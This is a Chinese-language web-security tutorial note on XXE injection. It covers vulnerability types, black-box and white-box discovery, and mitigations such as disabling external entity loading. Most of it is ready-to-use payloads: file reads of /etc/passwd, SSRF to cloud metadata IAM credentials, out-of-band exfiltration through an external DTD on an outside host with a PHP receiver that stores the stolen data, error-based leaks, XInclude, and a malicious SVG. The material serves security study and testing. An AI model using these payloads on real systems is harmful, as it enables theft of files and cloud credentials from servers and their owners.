

# WEB攻防-XML&XXE安全&无回显方案&OOB盲注&DTD外部实体&黑白盒挖掘




| 类型        | 特征                 | 典型场景       |
| ----------- | -------------------- | -------------- |
| 带内数据XXE | 直接返回攻击结果     | 文件读取、SSRF |
| 基于错误XXE | 通过报错信息泄露数据 | 配置错误的环境 |
| 带外数据XXE | 通过DNS/HTTP外带数据 | 严格过滤场景   |
| Blind XXE   | 无直接回显攻击       | 日志文件注入   |

```
#详细点：
XML被设计为传输和存储数据，XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素，其焦点是数据的内容，其把数据从HTML分离，是独立于软件和硬件的信息传输工具。等同于JSON传输。

XML与HTML 的主要差异：
XML 被设计为传输和存储数据，其焦点是数据的内容。
HTML 被设计用来显示数据，其焦点是数据的外观。
HTML 旨在显示信息 ，而XML旨在传输存储信息。

XXE漏洞XML External Entity Injection，即xml外部实体注入漏洞：XXE漏洞发生在应用程序解析XML输入时，没禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网扫描、攻击内网等危害。

-XXE黑盒发现：
两类：
-数据包的测试
-功能点的测试
1、获取得到Content-Type或数据类型为xml时，尝试xml语言payload进行测试
2、不管获取的Content-Type类型或数据传输类型，均可尝试修改后提交测试xxe
3、XXE不仅在数据传输上可能存在漏洞，同样在文件上传引用插件解析或预览也会造成文件中的XXE Payload被执行
-XXE白盒发现：
1、可通过应用功能追踪代码定位审计
2、可通过脚本特定函数搜索定位审计
3、可通过伪协议玩法绕过相关修复等

XXE修复防御方案：
-方案1-禁用外部实体
PHP:
libxml_disable_entity_loader(true);
JAVA:
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();dbf.setExpandEntityReferences(false);
Python：
from lxml import etreexmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))

-方案2-过滤用户提交的XML数据
过滤关键词：<!DOCTYPE和<!ENTITY，或者SYSTEM和PUBLIC

#利用
1、文件读取：
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

2、SSRF&配合元数据
条件：存在XXE注入的云服务器应用
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>
&xxe;
</productId><storeId>1</storeId></stockCheck>

外部引用实体dtd：
<?xml version="1.0" ?>
<!DOCTYPE test [
    <!ENTITY % file SYSTEM "http://xiaodi8.com/file.dtd">
    %file;
]>
<user><username>&send;</username><password>xiaodi</password></user>
file.dtd
<!ENTITY send SYSTEM "file:///d:/x.txt">

无回显利用：
1、带外测试
<?xml version="1.0" ?>
<!DOCTYPE test [
    <!ENTITY % file SYSTEM "http://xiaodi8.dnslog.cn">
    %file;
]>
<user><username>&send;</username><password>xiaodi</password></user>

2、外部引用实体dtd配合带外
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///c:/c.txt">
<!ENTITY % remote SYSTEM "http://www.xiaodi8.com/test.dtd">
%remote;
%all;
]>
<user><username>&send;</username><password>xiaodi</password></user>

test.dtd：
<!ENTITY % all "<!ENTITY send SYSTEM 'http://www.xiaodi8.com/get.php?file=%file;'>">

get.php:
<?php
$data=$_GET['file'];
$myfile = fopen("file.txt", "w+");
fwrite($myfile, $data);
fclose($myfile);
?>

test.dtd->all->send->get.php?file=%file->file:///c:/c.txt
http://www.xiaodi8.com/get.php?file=读取的内网数据


3、外部引用实体dtd配合错误解析
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0ab2006f03dce8a4803dfde101f3007d.exploit-server.net/exploit"> %xxe;]>

#升级拓展：
1、xinclude利用
一些应用程序接收客户端提交的数据，在服务器端将其嵌入到XML文档中，然后解析该文档，所以利用xinclude嵌套进去执行
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
2、SVG图像解析（docx等）
一些应用程序接收解析文件，可以使用基于XML的格式的例子有DOCX这样的办公文档格式和SVG这样的图像格式进行测试
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
3、见图
基于XML的Web服务： SOAP、REST和RPC API这些接收和处理XML格式
导入/导出功能： 任何以 XML 格式传输数据的进出口
RSS/Atom 订阅处理器： 订阅功能也可能隐藏着 XXE 漏洞。
文档查看器/转换器： 处理DOCX、XLSX等XML 格式文档的功能
文件上传处理 XML： 比如SVG图像处理器，上传图片也可能中招！

#复盘：
SRC报告
http://web.jarvisoj.com:9882/
https://mp.weixin.qq.com/s/5iPoqsWpYfQmr0ExcJYRwg
```

